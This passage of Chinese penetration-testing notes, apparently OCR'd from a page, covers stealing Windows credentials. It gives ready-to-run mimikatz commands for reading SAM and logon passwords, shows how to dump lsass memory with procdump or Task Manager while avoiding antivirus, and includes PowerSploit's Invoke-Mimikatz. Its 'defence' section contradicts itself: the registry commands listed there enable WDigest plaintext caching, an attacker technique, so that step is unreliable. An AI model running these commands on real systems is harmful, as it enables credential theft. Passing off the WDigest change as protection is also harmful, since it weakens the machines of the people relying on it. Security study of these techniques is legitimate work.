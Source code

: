       与方式1不同的是，需要在目标极其上运行mimikatz，需要考虑免杀特性。

      运行mimikatz后，输入`privilege::debug`提升权限，然后输入`token::elevate`提升权限至System

      再输入`lsadump::sam`。读取本地SAM文件，获得NTLM Hash。

##### 使用mimikatz在线读取SAM文件

运行：

```powershell
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
```

##### 使用mimikatz离线读取lsass.dmp文件

首先需要导出该文件：

1. 使用任务管理器导出lsass.dmp文件

   再Windows NT 6中，可以在任务管理器中直接进行Dump操作，找到`lsass.exe`进程，右键`Create Dump File`

2. 使用Procdump导出

   这是微软官方发布的工具，不会被查杀拦截：

   ```powershell
   procdump.exe -accepteula -ma lsass.exe lsass.dmp
   ```

   [Sysinternals Utilities - Windows Sysinternals | Microsoft Docs](https://docs.microsoft.com/en-us/sysinternals/downloads/)

接着使用mimikatz导出`lsass.dmp`文件中的密码散列值：

在命令行环境中运行mimikatz，然后加载文件：

```powershell
sekurlsa::minidump lsass.dmp
```

看到`Switch to MINIDUMP`即加载成功，然后输入：

```powershell
sekurlsa::logonPasswords full
```

即可导出密码散列值。

##### PowerSploit 远程加载mimikatz抓取散列值和明文密码

```powershell
Invoke-Mimikatz
```

##### 单机密码抓取的防范方法

安装补丁KB2871997或者禁用Wdigest功能。

开启Widgest Auth：

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
# powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type REG_DWORD -Value 1
```
